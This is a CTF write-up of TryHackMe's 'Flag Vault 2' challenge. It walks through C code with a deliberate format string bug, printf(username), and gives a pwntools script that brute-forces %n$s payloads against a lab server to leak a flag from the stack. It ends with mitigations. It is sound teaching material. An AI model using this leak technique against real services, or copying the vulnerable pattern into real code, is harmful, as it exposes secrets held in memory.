# TryHackMe - Flag Vault 2 (CTF Write-up)

> Author: Adam Pawelczyk
>
> Date: 2025.07.10
>
> Category: Binary Exploitation
>
> Difficulty: Easy
>
> [TryHackMe Link](https://tryhackme.com/room/hfb1flagvault2)

---

## Challenge Description

> How did you do that? No worries. I'll adjust a couple of lines of code so you won't be able to get the flag anymore. This time, for real. Here's the source code once again.

Looks like ByteReaper wasn't too happy with us getting the flag last time. In this follow-up to the "Flag Vault" challenge, the developer claims to have fixed the vulnerability and made the flag inaccessible. Naturally, our job is to prove him wrong, again.

## Goal

Find and exploit a vulnerability in the updated code to retrieve the flag.

## TL;DR

- Reviewed the updated C source code.
- Noticed that the flag isn't printed anymore, but it's still read from `flag.txt`.
- Found a format string vulnerability in `printf(username)` inside `print_flag()`.
- Used the `%s` format specifier with positional arguments to leak memory contents.
- Brute-forced stack positions until the flag appeared in the output.

## Source Code Analysis

Here's the updated part of the code that stands out:

```c
void print_flag(char *username){
    FILE *f = fopen("flag.txt","r");
    char flag[200];

    fgets(flag, 199, f);
    //printf("%s", flag);
	
	//The user needs to be mocked for thinking they could retrieve the flag
	printf("Hello, ");
	printf(username);
	printf(". Was version 2.0 too simple for you? Well I don't see no flags being shown now xD xD xD...\n\n");
	printf("Yours truly,\nByteReaper\n\n");
}
```

### Key Observations:

- The flag is still being read into memory from `flag.txt`, but the line that prints it is commented out.
- The `username` input is passed directly into `printf()` without a format string - a format string vulnerability.
- Since `flag` is sitting on the stack and we control `username`, we can try to leak memory using format specifiers.

## Exploitation Strategy

Plan:
1. Abuse the vulnerable `printf(username)` to leak stack data.
2. Use `%<n>$s` to print a string from a specific stack position.
3. Brute-force different values of `<n>` until the flag appears.

## Exploit Code

Here's the Python exploit using `pwntools`:

```python
from pwn import *

context.log_level = 'warning'

for position in range(1, 101):
    conn = remote('10.10.239.226', 1337)
    payload = f'%{position}$s'

    conn.recvuntil(b'Username:')
    conn.sendline(payload.encode())

    response = conn.recvall().decode()

    if 'THM{' in response:
        print(response)
        break
```

This script:
- Connects to the challenge server.
- Sends a payload like `%1$s`, `%2$s`, etc.
- Checks each response for the presence of the flag.
- Stops when the flag is found and printed back to us.

## Exploitation Output

The script output revealed the following result:

![result.png](images/result.png)

The screenshot shows the flag successfully leaked through the format string vulnerability.

## What Happened?

This version tried to hide the flag by commenting out the `printf(flag)` line. But the dev didn't consider the consequences of using a user-controlled string in a raw `printf()` call. Without a format string, `printf(username)` treats input as a format string, meaning `%s`, `%x`, and other format directives are interpreted by the program.

The `flag` variable, despite not being printed directly, still lives on the stack after being loaded. With enough brute-forcing, we landed on the correct stack position and used `%s` to leak the string.

## Conclusion

This was an example of a format string bug. Even though the flag wasn't directly printed anymore, the vulnerability allowed us to leak it from memory anyway.

## Skills Practiced

- Format string exploitation.
- Brute-forcing positional arguments.
- Using `pwntools` to automate and streamline exploitation.

## Mitigations

- Never use user input directly in `printf()`. Always use a format string like `printf("%s", username);`.
- Be cautious even when hiding or commenting out code - data still in memory can still be leaked.

## Final Thoughts

This challenge was a great follow-up to the original. It reinforced the importance of secure coding practices - especially in C. It's always satisfying to bypass a developer's "fix" and find another hole they didn't think of.

**Note:** The flag was redacted to comply with TryHackMe's write-up policy.